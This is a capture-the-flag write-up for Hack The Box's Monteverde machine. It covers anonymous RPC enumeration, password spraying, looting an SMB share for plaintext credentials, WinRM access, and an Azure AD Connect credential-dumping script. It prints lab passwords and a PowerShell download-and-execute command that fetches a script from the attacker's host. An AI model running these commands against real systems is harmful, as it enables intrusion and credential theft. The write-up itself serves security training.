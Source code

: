 ```yaml
---
description: https://app.hackthebox.com/machines/Monteverde
---
```


# 🐭 Monteverde

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's start by a quick nmap:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>TCP DNS (53) along with Kerberos (TCP 88) and LDAP (TCP 389) suggests this might be a domain controller</p></figcaption></figure>

Could not connect via SMB shares

So tried RPC on port 445:

```
rpcclient -U "" -N 10.129.69.81
querydispinfo
```

1. `rpcclient`: This is a command-line tool used to execute client-side operations on a remote system that supports RPC. It allows users to interact with services that utilize RPC for communication.
2. `-U ""`: This parameter specifies the username to use for authentication. In this case, an empty string `""` is used, which might indicate that the command is trying to connect anonymously or using a null session.
3. `-N`: This flag is used to indicate that no password should be prompted for, which typically implies anonymous authentication.
4. `10.129.69.81`: This is the IP address of the remote system to which the command is attempting to connect.
5. `querydispinfo`: This appears to be a command or operation being requested from the remote system. It could be querying display information, such as details about the available shared resources or services.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we found the name of some of the users and their account name

a good way to go would be to check if the users use their name as passwords for their account

So let's try to put all the usernames in a word list and spray using crackmapexec

```
crackmapexec smb 10.129.69.81 -u users.txt -p users.txt --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>MEGABANK.LOCAL\SABatchJobs:SABatchJobs</p></figcaption></figure>

cool we got a match&#x20;

Now let's use `smbmap` to tell me what shares there are and what I have access to in a cleaned up manner:

```
smbmap -H 10.129.69.81 -u SABatchJobs -p SABatchJobs
```

* `smbmap`: This is a command-line tool used to enumerate and interact with shares on SMB servers. It allows users to discover accessible shares, permissions, and other information available on SMB-enabled systems.
* `-H 10.129.69.81`: This parameter specifies the target host or IP address (`10.129.69.81`) of the SMB server that the `smbmap` tool will interact with. This is the remote system you want to analyze.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after some enumeration we see some interesting files:

```
smbmap -H 10.129.69.81 -u SABatchJobs -p SABatchJobs -R 'users$'
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To grab it using smbclient ->

```
smbclient -U SABatchJobs //10.129.69.81/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

1. `smbclient`: This is the command-line tool used to access files and services on SMB/CIFS servers.
2. `-U SABatchJobs`: This parameter specifies the username (`SABatchJobs`) to be used for authentication when connecting to the SMB/CIFS server.
3. `//10.10.10.172/users$`: This is the Uniform Naming Convention (UNC) path to the shared resource on the server (`10.10.10.172`). The `users$` represents a hidden share named `users`. The double slashes `//` indicate the beginning of a UNC path.
4. `SABatchJobs`: This is the password corresponding to the username provided with the `-U` flag. It's used for authentication purposes.
5. `-c 'get mhope/azure.xml azure.xml'`: This part of the command specifies a subcommand to be executed after connecting to the SMB/CIFS server. In this case, it's executing the `get` command to retrieve a file named `azure.xml` from the `mhope` directory on the server's `users$` share. The file will be downloaded to the local system and saved as `azure.xml`.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or another way of doing it:

```
smbclient -U SABatchJobs //10.129.69.81/users$ SABatchJobs
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

in the XML file, there are credentials:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

since the credentials are in mhope directory, it's a high prob it's his credentials ->

You can check that with `crackmapexec`

```
crackmapexec winrm 10.129.69.81 -u mhope -p '4n0therD4y@n0th3r$'
```

1. `crackmapexec`: This is a penetration testing tool that is used for assessing the security of networks by identifying and exploiting vulnerabilities. It's specifically designed for enumerating and exploiting Windows hosts on a network.
2. `winrm`: This indicates that the operation being performed by `crackmapexec` pertains to WinRM, which is a management protocol used for remote management of Windows systems over HTTP(S). WinRM allows for remote execution of PowerShell commands and scripts, as well as other management tasks.
3. `10.129.69.81`: This is the IP address of the target system where the WinRM service is running. `crackmapexec` will attempt to connect to this system to perform enumeration or exploitation.
4. `-u mhope`: This flag specifies the username (`mhope`) to be used for authentication when connecting to the WinRM service on the target system.
5. `-p '4n0therD4y@n0th3r$'`: This flag specifies the password (`4n0therD4y@n0th3r$`) corresponding to the username provided with the `-u` flag. It's used for authentication purposes.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also get the indication that winrm works for this account so let's go:

```
evil-winrm -i 10.129.69.81 -u mhope -p '4n0therD4y@n0th3r$'
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>59f4dfa90d416cb495bd38d04f361549</p></figcaption></figure>

In the box description, we see that they talk about Azure Active Directory and there was a share "azure uploads"

When used without additional parameters, "net user mhope" displays detailed information about the specified user account, such as the account's full name, description, whether the account is active or disabled, when the account was created, and when the account's password was last set

<figure><img src="../../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that mhope is part of the azure admins group

after quick enumeration we also see  that there are a lot of azure related files:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

nice blog about azure red teaming:

{% embed url="https://blog.xpnsec.com/azuread-connect-for-redteam/" %}

We see this :

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c" %}

on my local machine i'll put this in an "azurePentest.ps1" file:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and go fetch it like that:

```
wget http://10.10.14.94:6969/azurePentest.ps1
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

or another way is to download it and executing it right away:&#x20;

```
iex(new-object net.webclient).downloadstring('http://10.10.14.94:6969/shell1.ps1')
```

1. `iex`: This is the alias for the `Invoke-Expression` cmdlet in PowerShell. It's used to execute commands or scripts represented as strings.
2. `(new-object net.webclient)`: This creates a new instance of the `System.Net.WebClient` class in .NET. This class provides methods for downloading data from the internet.
3. `.downloadstring('http://10.10.14.94:6969/shell1.ps1')`: This calls the `DownloadString` method of the `WebClient` object created in the previous step. It downloads the contents of the specified URL (`http://10.10.14.94:6969/shell1.ps1`) as a string.

Combining these components, the entire command can be interpreted as follows:

1. Create a new instance of the `WebClient` class.
2. Use this `WebClient` object to download the contents of the PowerShell script (`shell1.ps1`) from the specified URL (`http://10.10.14.94:6969/shell1.ps1`).
3. Execute the downloaded script using the `Invoke-Expression` cmdlet (`iex`)

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

Script kiddie type stuff, but we get some credentials. Let's hop on WinRM:

{% content-ref url="../../interacting-with-protocols-and-tools/tools/winrm.md" %}
[winrm.md](../../interacting-with-protocols-and-tools/tools/winrm.md)
{% endcontent-ref %}

```
evil-winrm -i 10.129.69.81 -u administrator -p 'd0m@in4dminyeah!'
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
